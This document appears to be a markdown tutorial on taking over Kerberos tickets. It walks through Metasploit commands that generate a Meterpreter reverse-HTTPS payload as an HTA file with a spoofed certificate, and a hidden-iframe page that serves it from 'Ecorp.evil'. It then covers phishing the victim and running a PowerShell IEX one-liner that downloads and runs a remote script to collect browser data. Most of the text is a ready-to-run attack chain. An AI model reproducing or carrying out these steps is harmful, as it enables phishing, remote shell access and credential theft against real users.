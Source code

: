 # Hijacking Kerberose Tickets
> Jacking kerberos tickets to remotely access the intranet.
> The noted describe a process that is run from Kali

1. Attacker creates a web page seving a malicous HTA file
2. Target browses the attacker-sent web page & executes the served HTA file
3. Meterpreter session is established
4. Malicous Code Injection
	- A: PowerShell script for recon against browser is injected into the target workstation's memory.
	- B: gssapu-proxy is dropped and executed.  The attacker can connect to port 8080 & browse the intranet, hijacking the target's active Kerberose tickets.


## 1. Malicous HTA File

1. Craft Malicous HTA File

```bash
service postgressql start
msfconsole

# MSF

msf5 use auxilary/gather/impersonate_ssl
msf5 auxilary(mpersonste_ssl)> set RHOST www.google.com
msf5 auxilary(mpersonste_ssl)> run
```

The output of *run* will include a `[+] www.google.com:443 - pem: /location/to/pem.pem`.

```bash
# MSF
msf5 auxilary(mpersonste_ssl)> use payload/windows/meterpreter/reverse_https
msf5 payload(windows/meterpreter/reverse_https)> set LHOST [evil external IP]
msf5 payload(windows/meterpreter/reverse_https)> set LPORT 443
msf5 payload(windows/meterpreter/reverse_https)> set stagerverifysslcert true
msf5 payload(windows/meterpreter/reverse_https)> set HANDLERSSLCERT /location/to/pem.pem
msf5 payload(windows/meterpreter/reverse_https)> generate -f hta-psh -o /tmp/patch.hta  #See Note Below
msf5 payload(windows/meterpreter/reverse_https)> back
msf5 use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set LHOST [external OR internal IP depending on the setup]
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > set stagerverifysslcert  true
msf5 exploit(multi/handler) > set HANDLERSSLCERT /location/to/pem.pem
msf5 exploit(multi/handler) > set exitonsession false
msf5 exploit(multi/handler) > exploit -j
```

**generate** Note: This could throw an error depending on the version of MSF you are using.
Older versions of msf use slightly different option flags.  Check the options for your version.

This may work instead: `generate -t hta-psh -f /tmp/patch.hta`

The `-t` was for output format but in `msf5>` it is `-f`

The `-f` was for output filename but in `msf5>` it is `-o`


## 2. HTA File is Executed
**[+] Simple HTML page** to serve the HTA file just created.  Name it whatever but for here it will be refered to as `index.html`.

*Auto Execute* will only take place in IE and Edge browsers.

```html
<html>
<head>
<body>
<div style="display:none;">
	<iframe id="frmDld" src:"http://Ecorp.evil/patch.hta"></iframe>
</div>
</body>
</head>
</html>
```

1. Serve `index.html` via any means, but the below works just fine.  
```python
python -m SimpleHTTPServer 8080
```
2. Send the victim a link or some phish.
3. Victim goes to `http://Ecorp.evil/index.html` cause they aren't paying attention to the domain name.
4. When `index.html` loads IF browser is IE or Edge it will execute the `patch.hta` file, and if everthing was set up properly, connect back to the `msf` session.  Check `jobs` and `sessions` to see if it worked.
5. [maybe] The victim may need to allow the file to execute.  But why not? They cliked on a **`Ecorp.evil`** link, right?


## 3. Meterpreter Session

Now you should have a meterperter session.  If not, what did you do wrong? Seriously.... I laid everything out for you.

Interact with the session: `sessions -i 1`
Start a Shell: `shell`


## 4. Malicous Code Injection

To enumerate browser history & bookmarks, inject `Get-BrowserData` into the victim's memory.

Execute the following in the `shell` session started in #3 above.

```powershell
C:\Users\FrankCastle\> powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Get-BrowserData.ps1'); Get-BrowserData | Format-List"
```